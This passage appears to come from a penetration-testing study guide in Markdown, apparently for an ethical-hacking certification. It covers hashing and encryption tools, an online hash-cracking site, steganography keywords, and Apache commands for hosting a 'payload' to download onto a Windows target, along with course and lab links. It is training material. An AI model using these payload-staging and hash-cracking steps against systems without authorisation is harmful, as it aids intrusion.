  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
    
    ## MD5 Calculator  
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
    <summary>VeraCrypt</summary>
      
  ## VeraCrypt 

  
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
  
  ## BCTextEncoded
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>
<details>
  <summary>online hash Links</summary>
  
## hash.com Link
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

<details>
    <summary>Keywords</summary>
  
  ## Keywords
  
  
  * Img hidden      - Openstego
  * .hex            - Cryptool
  * Whitespace      - SNOW
  * MD5             - Hashcalc & MD5 Calculator
  * Encoded         - BCTexteditor
  * Volume & mount  - Veracrypt

</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [hark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  






